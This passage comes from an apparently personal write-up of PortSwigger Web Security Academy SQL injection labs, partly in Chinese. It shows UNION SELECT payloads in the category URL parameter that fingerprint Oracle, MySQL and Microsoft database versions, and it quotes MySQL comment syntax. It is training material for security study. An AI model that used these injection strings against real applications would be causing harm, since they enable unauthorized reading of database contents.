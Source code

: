 ### Solved
#### /filter?category='+UNION+SELECT+BANNER,+NULL+FROM+v$version--
![image](https://hackmd.io/_uploads/rJFvdwMFp.png)
![image](https://hackmd.io/_uploads/BJ0uOvzY6.png)

## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
![image](https://hackmd.io/_uploads/ryd7tPfKa.png)

https://0abb008204f9aca180d54e430064009d.web-security-academy.net/
![image](https://hackmd.io/_uploads/HJf7CDzta.png)

### Solution
> [!NOTE]
>:brain: 思考邏輯:\
>題目要求使用 UNION attack 顯示 database version，所以先確認UNION SELECT 可以運作，再透過 @@version 找出 DB version

#### 1. /filter?category=Gifts%27+UNION+SELECT+%27dev%27,%27core%27--
![image](https://hackmd.io/_uploads/H16BRPGKa.png)

[MySQL Comment](https://dev.mysql.com/doc/refman/8.0/en/comments.html)
> MySQL Server supports three comment styles:\
● From a # character to the end of the line.\
● From a --  sequence to the end of the line. In MySQL, the --  (double-dash) comment style requires the second dash to be followed by at least one whitespace or control character (such as a space, tab, newline, and so on).

#### 2. /filter?category=Pets%27%20UNION%20SELECT%20%27abc%27,%27def%27--%20
![image](https://hackmd.io/_uploads/ryUIx_MFa.png)
![image](https://hackmd.io/_uploads/BkV5lOzKT.png)

### Solved
#### /filter?category=Pets%27+UNION+SELECT%20@@version,%20NULL--%20
![image](https://hackmd.io/_uploads/HJgFZdzt6.png)
![image](https://hackmd.io/_uploads/SJoqWuMta.png)

## Lab: SQL injection attack, listing the database contents on non-Oracle databases
![image](https://hackmd.io/_uploads/SyWRZdMFa.png)
